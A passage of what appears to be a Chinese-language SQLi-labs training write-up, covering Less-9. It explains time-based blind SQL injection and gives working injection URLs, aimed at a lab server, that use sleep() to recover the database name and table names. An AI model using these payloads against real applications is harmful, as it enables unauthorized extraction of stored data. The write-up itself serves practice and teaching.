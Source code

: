 - 可以得到匹配的字段名,`id`,`username`,`password`

****

### Less-9(时间盲注->`'`闭合)

- 本关我在做的时候发现只要传了`id`这个参数,就会显示`you are in ...`
- 且没有任何报错提示,很明显是`时间盲注`

```sql
#判断数据库名字长度->8
http://8.137.60.154:8082/Less-9/?id=1'and if(length(database())=8,sleep(3),1) --+

#获取数据库名->security
http://8.137.60.154:8082/Less-9/?id=1'and if(substr(database(),1,1)="s",sleep(3),1) --+
```

![image-20241007200431307](./assets/image-20241007200431307.png)

```sql
#获取表的个数->4
http://8.137.60.154:8082/Less-9/?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(3),1) --+

#获取表名
http://8.137.60.154:8082/Less-9/?id=1'and if((substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)="e"),sleep(3),1) --+
```
